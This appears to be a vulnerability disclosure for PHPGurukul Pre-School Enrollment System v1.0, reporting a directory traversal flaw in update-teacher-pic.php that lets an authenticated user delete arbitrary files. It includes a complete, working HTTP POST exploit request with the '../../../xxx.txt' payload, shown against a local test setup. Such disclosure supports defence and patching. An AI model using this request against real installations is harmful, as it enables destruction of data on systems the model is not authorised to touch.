 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-4(update-teacher-pic.php)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with currentprofilepic in the update-teacher-pic.php file 
   Lines 15 and 16 get the currentprofilepic parameter and concatenate it into oldprofilepic. currentprofilepic is not filtered.
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/8.png)   
   Line 40 unlink oldprofilepic, which leads to this directory traversal vulnerability
   ![9](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/9.png) 
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the update-teacher-pic.php page,   Teachers-Manage-Add Teacher-Update Profile Pic-Update Teacher Profile Pic
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/2.png)
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/3.png)
   ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/7.png)
  
   Intercept the data packet and find the problematic parameter currentprofilepic
   
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/4.png)

   Transformed into attack payload    


    POST /Pre-School-Enrollment-System-PHP/preschool/admin/update-teacher-pic.php?tid=1 HTTP/1.1
    Host: localhost
    sec-ch-ua-platform: "Windows"
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCOslMZHmxE3UWS8E
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-Site: same-origin
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/update-teacher-pic.php?tid=1
    Accept-Language: zh-CN,zh;q=0.9
    Accept-Encoding: gzip, deflate, br, zstd
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    Upgrade-Insecure-Requests: 1
    sec-ch-ua-mobile: ?0
    Sec-Fetch-Mode: navigate
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    Origin: http://localhost
    Sec-Fetch-Dest: document
    Cache-Control: max-age=0
    Sec-Fetch-User: ?1
    Content-Length: 5637583

    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="currentprofilepic"

    ../../../xxx.txt
    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="profilepic"; filename="804a28a9c5be300aafa9f83527956d13.jpeg"
    Content-Type: image/jpeg


    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="submit"


    ------WebKitFormBoundaryCOslMZHmxE3UWS8E--


   Create xxx.txt test file in  D:\phpstudy_pro\WWW\Pre-School-Enrollment-System-PHP
      ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/5.png)

   Send payload, xxx.txt file has been deleted   
   ![8](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/6.png)   
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   

